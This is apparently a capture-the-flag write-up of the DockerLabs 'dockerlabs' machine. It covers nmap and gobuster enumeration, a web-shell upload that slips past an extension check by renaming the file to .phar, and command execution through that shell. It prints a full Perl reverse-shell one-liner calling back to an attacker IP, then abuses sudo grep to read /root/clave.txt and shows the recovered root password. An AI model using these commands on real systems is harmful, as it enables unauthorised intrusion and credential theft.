





# dockerlabs

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| dockerlabs | El Pingüino de Mario | easy | dockerlabs |

**Summary:** The compromise started with direct service discovery that revealed a single Apache web surface and immediately progressed to forced content discovery, which exposed an upload workflow and a machine specific endpoint. Upload controls were weak at the extension validation layer, so a crafted web shell was accepted after format adjustment, enabling remote command execution in the web context. From this foothold, command verification and reverse shell delivery established interactive access as www data, followed by terminal stabilization for reliable post exploitation operations. Internal enumeration exposed sudo misconfiguration that granted passwordless execution of grep as root, while a local note disclosed the sensitive file location holding the root secret. Combining these findings allowed credential recovery from `/root/clave.txt`, authentication as root, and full administrative control of the container.

---

## Reconnaissance

1. The target machine was deployed from the provided archive, and the assigned container address was confirmed.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/dockerlabs]
└─$ sudo bash auto_deploy.sh dockerlabs.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

2. Full port and service reconnaissance was executed with default scripts and version detection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 22:38 WIB
Nmap scan report for picadilly.lab (172.17.0.2)
Host is up (0.000013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Dockerlabs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.21 seconds
```

3. Web content discovery identified upload related functionality and a machine specific route.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ gobuster dir -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x .txt,.php,.html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

4. The `/uploads/` directory was reachable and provided clear evidence of exposed upload handling.



5. The `/machine.php` endpoint was then inspected as part of attack surface validation.


## Initial Access

1. A server side payload was prepared for upload testing through the exposed workflow.



2. Validation behavior initially rejected the file because the extension policy expected a zip style format.



3. The payload extension was adapted to align with accepted handling logic.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ mv shell.phtml shell.phar
```

4. Upload execution succeeded after extension adjustment.



5. Command execution was validated by invoking `id` through the uploaded file.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ curl $url/uploads/shell.phar?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

6. Available tooling on target was checked before selecting the reverse shell method.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ curl $url/uploads/shell.phar?cmd=which%20perl
/usr/bin/perl
```

7. A listener was opened locally to receive the callback connection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

8. The reverse shell payload was triggered through the command execution primitive.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ curl $url/uploads/shell.phar?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22172.21.44.133%22%3B%24p%3D4444%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27
```

9. The session was stabilized for interactive post exploitation commands.

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 47138
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6fe495947fcb:/var/www/html/uploads$ cd /
cd /
www-data@6fe495947fcb:/$ which script
which script
/usr/bin/script
www-data@6fe495947fcb:/$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
www-data@6fe495947fcb:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dockerlabs]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@6fe495947fcb:/$ export SHELL=/bin/bash
www-data@6fe495947fcb:/$ export TERM=xterm
www-data@6fe495947fcb:/$ stty rows 67 cols 158
```

## Privilege Escalation

1. Local account and home directory enumeration identified interactive users and possible pivot context.

```bash
www-data@6fe495947fcb:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
dbadmin:x:1001:1001::/home/dbadmin:/bin/bash
www-data@6fe495947fcb:/$ ls -la /home
total 16
drwxr-xr-x 1 root    root    4096 May 17  2024 .
drwxr-xr-x 1 root    root    4096 Mar 17 16:33 ..
drwxr-x--- 2 dbadmin dbadmin 4096 May 17  2024 dbadmin
drwxr-x--- 2 ubuntu  ubuntu  4096 Apr 29  2024 ubuntu
```

2. Sudo permission analysis revealed passwordless execution rights for `cut` and `grep` as root.

```bash
www-data@6fe495947fcb:/$ which sudo
/usr/bin/sudo
www-data@6fe495947fcb:/$ sudo -l
Matching Defaults entries for www-data on 6fe495947fcb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 6fe495947fcb:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

3. The GTFOBins style grep abuse path was validated visually before extracting sensitive root data.



4. File system exploration uncovered a note that disclosed where the root secret was stored, and sudo grep read access exposed the credential.

```bash
www-data@6fe495947fcb:/$ ls -la /opt
total 12
drwxr-xr-x 1 root root 4096 May 17  2024 .
drwxr-xr-x 1 root root 4096 Mar 17 16:33 ..
-rw-r--r-- 1 root root  129 May 17  2024 nota.txt
www-data@6fe495947fcb:/$ cat /opt/nota.txt
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
www-data@6fe495947fcb:/$ sudo /usr/bin/grep '' /root/clave.txt
dockerlabsmolamogollon123
```

5. Root authentication was completed successfully, confirming full privilege escalation.

```bash
www-data@6fe495947fcb:/$ su - root
Password:
root@6fe495947fcb:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
6fe495947fcb
/root
total 24
drwx------ 1 root root 4096 May 17  2024 .
drwxr-xr-x 1 root root 4096 Mar 17 16:33 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 May 17  2024 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
-rw-r--r-- 1 root root   26 May 17  2024 clave.txt
```

---

## Attack Chain Summary

1. **Reconnaissance**: Service mapping identified a single HTTP surface on port 80, and content enumeration exposed `/uploads`, `/upload.php`, and `/machine.php` as key entry points.
2. **Vulnerability Discovery**: The upload workflow relied on weak extension checks, allowing a payload to pass validation after conversion from `.phtml` to `.phar`.
3. **Exploitation**: The uploaded file executed arbitrary commands, confirmed with `id`, then delivered a Perl reverse shell that provided interactive access as `www-data`.
4. **Internal Enumeration**: Local discovery identified user contexts, privileged command allowances, and an operational note in `/opt/nota.txt` that referenced `/root/clave.txt`.
5. **Privilege Escalation**: Passwordless sudo rights on `grep` enabled direct extraction of the root credential, after which `su - root` granted full administrative control.
